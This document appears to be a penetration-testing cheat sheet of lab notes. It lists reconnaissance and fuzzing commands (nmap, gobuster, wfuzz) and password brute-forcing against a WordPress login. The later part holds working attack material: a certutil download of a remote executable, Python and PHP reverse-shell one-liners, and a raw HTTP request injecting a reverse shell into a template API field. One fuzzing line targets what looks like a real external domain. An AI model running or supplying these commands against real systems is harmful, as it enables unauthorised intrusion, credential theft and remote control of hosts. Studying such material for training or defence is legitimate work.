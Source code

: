 ### NMAP
nmap -p80 --script=http-enum 172.16.80.1

nmap -p80 --script=http-methods --script-args http-methods.url-path='/wp-includes/' $IP

nmap -p80 -sV --script http-wordpress-enum offsecwp

### CEWL

sudo cewl -d 2 -m 5 -w ourWordlist.txt www.MegaCorpOne.com

ls -sa /usr/bin | sed 's/[0-9]*//g' | sed -r 's/\s+//g' |sort -u > $HOME/binaries-wordlist.txt

### GOBUSTER


gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301

gobuster dir -u $URL -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 5 -b 301

gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x php,html,asp 

### CERTUTIL

certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe


### HAKRAWLER

sudo apt-get install -y hakrawler
which hakrawler

echo "https://www.megacorpone.com/" > urls.txt
cat urls.txt |./hakrawler


### WFUZZ

#### Discover files:

export URL="http://offsecwp:80/FUZZ"
echo $URL

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"

#### Discover Directories:

export URL="http://offsecwp:80/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403,301 "$URL"

wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404,403 -f ./ad-wfuzz.txt,csv https://adselfserviceplus.dxc-ap.com/FUZZ

#### Parameter Discovery:

export URL="http://offsecwp:80/index.php?FUZZ=data"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404,301 "$URL"

#### Fuzzing Parameter Values:

wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://offsecwp:80/index.php?fpv=FUZZ

One might need to adjust excluded response code.

wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-BruteLogic.txt  --hh 0  http://offsecwp:80/index.php?xss=FUZZ


#### Fuzzing POST Data:

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" http://offsecwp:80/wp-login.php

export URL="http://offsecwp:80/wp-login.php"

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404 -d "log=admin&pwd=FUZZ" --hh 7201 "$URL"

wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64" http://idor-sandbox:80/user/?uid=FUZZ

### CURL

curl -s http://idor-sandbox:80/user/?uid=62718 -w '%{size_download}'

curl -s /dev/null http://idor-sandbox:80/user/?uid=91191 -w '%{size_download}' --header "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64"

### SHELLS

#### Python reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

#### PHP Reverse Shell:

php -r '$sock=fsockopen("10.0.0.1",80);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);system("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);passthru("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("10.0.0.1",80);popen("/bin/sh -i <&3 >&3 2>&3", "r");'




<?php

passthru("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.194\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'");

?>



POST /api/php HTTP/1.1

Host: 192.168.194.101

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/json;charset=utf-8

Content-Length: 285

Origin: http://192.168.194.101

Connection: close

Referer: http://192.168.194.101/


{"template":"\n\npassthru(\"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"192.168.49.194\\\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\\\"/bin/bash\\\")'\");\n\n","vars":{}}


#### Some commands

whereis python

https://www.revshells.com/


